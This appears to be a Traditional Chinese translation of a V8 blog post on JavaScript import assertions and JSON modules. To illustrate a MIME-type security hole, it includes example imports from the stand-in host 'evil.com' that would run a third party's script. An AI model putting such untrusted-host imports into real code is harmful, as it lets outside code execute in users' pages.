 ```yaml
---
title: "匯入聲明"
author: "Dan Clark ([@dandclark1](https://twitter.com/dandclark1)), 匯入聲明的強勢進口商"
avatars: 
  - "dan-clark"
date: 2021-06-15
tags: 
  - ECMAScript
description: "匯入聲明允許模組匯入語句在模組規範之外附加額外的信息"
tweet: ""
---
```


全新的[匯入聲明](https://github.com/tc39/proposal-import-assertions)功能允許模組匯入語句在模組規範之外附加額外的信息。該功能的初始用途是啟用以[JSON 模組](https://github.com/tc39/proposal-json-modules)形式匯入 JSON 文件：

<!--truncate-->
```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
import json from './foo.json' assert { type: 'json' };
console.log(json.answer); // 42
```

## 背景：JSON 模組和 MIME 類型

人們可能會問，為什麼不能簡單地如下匯入 JSON 模組：

```javascript
import json from './foo.json';
```

在執行模組資源之前，Web 平台會檢查其 MIME 類型的有效性，理論上可以利用這個 MIME 類型來判定資源是 JSON 還是 JavaScript 模組。

但僅依賴 MIME 類型存在一個[安全問題](https://github.com/w3c/webcomponents/issues/839)。

模組可以跨域匯入，開發人員可能會從第三方來源匯入 JSON 模組。如果 JSON 經過適當的清理，他們可能認為即使來自不受信任的第三方這也是基本安全的，因為匯入 JSON 不會執行腳本。

然而，在這種情況下，第三方腳本實際上可以執行，因為第三方伺服器可能會意外回復一個 JavaScript MIME 類型和惡意的 JavaScript 有效負載，從而在匯入者的域中執行代碼。

```javascript
// 如果 evil.com 回復一個
// JavaScript MIME 類型（例如 `text/javascript`），則執行 JS！
import data from 'https://evil.com/data.json';
```

無法使用文件擴展名來判定模組類型，因為[在 Web 上文件擴展名並非可靠的內容類型指標](https://github.com/tc39/proposal-import-assertions/blob/master/content-type-vs-file-extension.md)。因此，我們使用匯入聲明來指示預期的模組類型以防止此類特權升高的陷阱。

當開發人員想要匯入 JSON 模組時，他們必須使用匯入聲明來指定它是 JSON。如果從網路接收到的 MIME 類型與預期類型不匹配，匯入將失敗：

```javascript
// 如果 evil.com 回復的不是 JSON MIME 類型，則失敗。
import data from 'https://evil.com/data.json' assert { type: 'json' };
```

## 動態 `import()`

匯入聲明也可以通過一個新的第二個參數傳遞給[動態 `import()`](https://v8.dev/features/dynamic-import#dynamic)：

```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
const jsonModule = await import('./foo.json', {
  assert: { type: 'json' }
});
console.log(jsonModule.default.answer); // 42
```

JSON 內容是模組的默認匯出，因此可以通過從 `import()` 返回的對象的 `default` 屬性來引用它。

## 結論

目前，匯入聲明的唯一定義用途是用於指定模組類型。然而，該功能被設計為允許任意的鍵/值聲明對，因此如果未來需要以其他方式限制模組匯入，那麼可能會添加其他用途。

同時，帶有新匯入聲明語法的 JSON 模組已在 Chromium 91 中默認可用。[CSS 模組腳本](https://chromestatus.com/feature/5948572598009856)也即將推出，使用相同的模組類型聲明語法。

## 匯入聲明支持

<feature-support chrome="91 https://chromestatus.com/feature/5765269513306112"
                 firefox="no"
                 safari="no"
                 nodejs="no"
                 babel="yes https://github.com/babel/babel/pull/12139"></feature-support>
